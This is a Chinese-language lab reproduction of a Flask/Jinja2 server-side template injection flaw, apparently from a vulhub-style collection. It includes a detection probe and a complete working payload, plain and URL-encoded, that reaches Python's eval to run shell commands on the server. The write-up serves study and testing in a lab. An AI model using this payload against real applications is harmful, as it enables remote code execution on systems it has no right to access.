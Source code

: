 Flask / jinja2 SSTI 服务端模版注入攻击
======================================

一、漏洞简介
------------

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

二、漏洞影响
------------

三、复现过程
------------

编译及运行测试环境：

    docker-compose build
    docker-compose up -d

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

    {% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
      {% endfor %}
    {% endif %}
    {% endfor %}

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

![](./resource/Jinja2SSTI服务端模版注入攻击/media/rId24.png)

参考链接
--------

> https://drops.org.cn/Python/flask-jinja2-ssti.html\#directory072591889128396616
>
> https://vulhub.org/\#/environments/flask/ssti/

